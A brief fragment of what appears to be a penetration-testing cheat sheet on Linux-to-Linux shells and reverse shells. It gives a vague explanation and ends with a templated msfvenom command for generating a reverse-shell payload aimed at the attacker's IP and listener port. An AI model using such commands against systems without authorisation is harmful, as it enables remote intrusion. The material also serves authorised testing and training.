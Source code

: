 --- ---

<h2>Linux -> Linux</h2>

Establishing a shell or reverse shell connection between two Linux machines is simple since they use the same type of shell and similar commands. Use SSH to connect to a remote machine and run commands on it. Use the ssh command on the attacking machine to initiate the connection and authenticate with the target machine. To establish a reverse shell connection, the target machine initiates the connection to the attacking machine and runs commands on it. This can be helpful when the target machine has limited connectivity or is behind a firewall. As long as both machines have compatible shells and necessary tools, establishing a connection between them is not a concern.

MSFvenom
```
msfvenom -p [payload] -f [format] LHOST=[your ip] LPORT=[your listener port]
```